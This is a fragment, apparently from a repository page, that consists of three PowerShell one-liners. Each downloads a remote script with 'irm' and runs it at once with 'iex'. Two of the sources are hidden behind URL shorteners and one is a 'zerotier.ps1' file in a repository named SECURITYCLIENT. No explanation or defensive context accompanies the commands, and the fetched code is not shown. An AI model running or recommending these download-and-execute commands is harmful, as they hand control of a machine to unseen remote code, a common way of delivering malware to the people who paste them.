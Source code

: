 irm bit.ly/zacodec | iex

irm tinyurl.com/blublight | iex
 
irm https://raw.githubusercontent.com/zainmustafam977/SECURITYCLIENT/refs/heads/main/base/zerotier.ps1 | iex
